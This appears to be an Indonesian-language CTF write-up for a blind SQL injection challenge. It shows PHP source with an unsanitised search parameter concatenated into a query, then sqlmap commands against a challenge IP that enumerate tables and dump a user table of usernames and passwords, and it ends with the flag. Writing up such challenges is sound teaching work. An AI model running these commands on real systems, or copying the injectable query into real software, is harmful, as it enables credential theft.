 # Are you blind yes maybe

diberikan sebuah web berisi sebuah inputan <br>
<img src="img.png"><br>
berikut berupa source code web tsb<br>
```
<html> 
<head> 

</head> 
<body> 
<h1>OTICtf</h1> 
<div id="content"> 

<?php

$servername = "localhost";
$user = "<censored>";
$pass = "<censored>";
$dbname = "sql";

// Create connection
$link = new mysqli($servername, $user, $pass, $dbname);
// Check connection
if ($link->connect_error) {
    die("Connection failed: " . $link->connect_error);
}

/* 
CREATE TABLE `post` (
  `ID` INT(11),  
  `Title` varchar(100), 
  `Text` text,
  `Time`datetime on update CURRENT_TIMESTAMP
);

CREATE TABLE `user` (
  `ID` INT,  
  `username` varchar(10), 
  `password` varchar(60) 
);

*/ 

if(array_key_exists("search", $_REQUEST)) {
        
    $search=$_REQUEST["search"];

    $query = "SELECT * FROM post WHERE Title LIKE \"%".$search."%\" or Text LIKE  \"%".$search."%\"";  
    
    $res = $link->query($query);

    if ($res->num_rows > 0) {
        echo "keyword found";

    } else {
        echo "keyword not found";
    }
    $link->close(); 
}else{
?>
<form action="index.php" method="POST">
Search:<input name="search"><br>
<input type="submit" value="search" />
</form>
<div id="viewsource"><a href="index-source.txt">View sourcecode</a></div>

<?php
$query = "SELECT * FROM post ";
$res = $link->query($query);
echo "<br>";
if ($res->num_rows > 0) {
    // output data of each row
    while($row = $res->fetch_assoc()) {
        echo "<h2>" . $row["Title"]. "</h2>" ;
        echo "<p>" . $row["Text"]. "</p>" ;
        }
}else{
        echo "0 result";
    }

} 
?>
 
</div> 
</body> 
</html> 
```
<br>
diketahui bahwa terdapat celah sqli  pada form tersebut dengan method POST <br>
dicoba dengan melakukan blind sql Injection dengan bantuan sqlmap <br><br>

``` sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST --dbs ``` <br>

didapat sebuah database bernama `sql`, kita coba temukan tabelnya<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --tables -D \`sql\` ``` <br>

didapat sebuah tabel 'user', coba cek isinya terlebih dahulu.<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --columns -D \`sql\` -T user ``` <br>


didapat hal yang mencurigakan yaitu username dan pasword, langsung saja lakukan dump <br>
``` sqlmap -u http://202.43.92.132:40001/index.php --data="search=s&form=submit" --method POST --dump -D \`sql\` -T user ```<br>

<img src="sqlmap.jpg"><br>

**ASGama{L00k1ng_f0R_s0m3_fl4g?}**
